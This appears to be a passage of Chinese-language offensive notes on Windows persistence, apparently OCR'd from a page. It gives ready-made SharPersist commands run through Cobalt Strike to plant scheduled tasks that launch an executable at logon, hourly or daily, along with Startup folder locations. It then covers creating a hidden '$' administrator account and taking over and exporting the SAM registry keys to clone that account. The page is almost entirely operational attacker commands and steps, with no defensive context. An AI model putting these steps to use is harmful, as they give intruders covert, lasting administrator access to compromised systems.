 ### SharPersist使用  
**添加定时任务**  
```  
管理员权限  
execute-assembly /root/SharPersist.exe -t schtask -c &#34;C:\Windows\System32\cmd.exe&#34; -a &#34;/c C:\Users\Public\sctAutorunTest.exe&#34; -n &#34;sctAutorunTest&#34; -m add -o logon  
  
普通用户组权限  
execute-assembly /root/SharPersist.exe -t schtask -c &#34;C:\Windows\System32\cmd.exe&#34; -a &#34;/c C:\Users\Public\sctAutorunTest.exe&#34; -n &#34;sctAutorunTest&#34; -m add -o hourly  
  
execute-assembly /root/SharPersist.exe -t schtask -c &#34;C:\Windows\System32\cmd.exe&#34; -a &#34;/c C:\Users\Public\sctAutorunTest.exe&#34; -n &#34;sctAutorunTest&#34; -m add -o daily  
```  
**查看定时任务**  
```  
execute-assembly /root/SharPersist.exe -t schtask -m list -n &#34;sctAutorunTest&#34;  
```  
**删除定时任务**  
```  
execute-assembly /root/SharPersist.exe -t schtask -c &#34;C:\Windows\System32\cmd.exe&#34; -a &#34;/c C:\Users\Public\sctAutorunTest.exe&#34; -n &#34;sctAutorunTest&#34; -m remove  
```  
## 权限维持-隐蔽账号和启动  
### **启动目录**  
**当前用户启动目录**  
开始-运行（win&#43;r）  
`shell:startup`  
打开的文件夹即为当前用户的启动目录  
仅对当前用户生效  
```  
C:\Users\f10wers13eicheng\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup  
```  
**所有用户启动目录**  
```  
shell:common startup  
```  
打开的目录即为所有用户的启动文件夹  
```  
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup  
```  
### 创建隐蔽账号  
**创建账号**  
在创建的用户名后加`$`，即为隐藏账户  
```  
net user test$ admin /add #添加隐藏用户  
net localgroup administrators test$ /add #添加到管理员组中  
```  
 **导出注册表**  
`[HKEY_LOCAL_MACHINE\SAM\SAM]`   
默认情况下这个项里没有任何内容，这是因为用户对它没有权限。右键菜单里为administrator赋予完全控制权限。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202503182103268.png)
`[SAMDomains\AccountUserslNames]`  
项里显示了系统当前存在的所有账户，选中`test$`，在其右侧有一个名为&#34;默认&#34;，类型为`0x3eb`的键值。其中`3eb`就是`test$`用户`SID`的结尾，即RID(这里使用十六进制表示)  
`[SAM\Domains\Account\Users]`  
里有一个以&#34;3EB&#34;结尾的子项，这两个项里存放了用户`test$`的信息。  
在这两个项上单击右键，执行&#34;导出&#34;命令，将这两个项的值分别导出成扩展名为`.reg`的注册表文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202503182112620.png)
  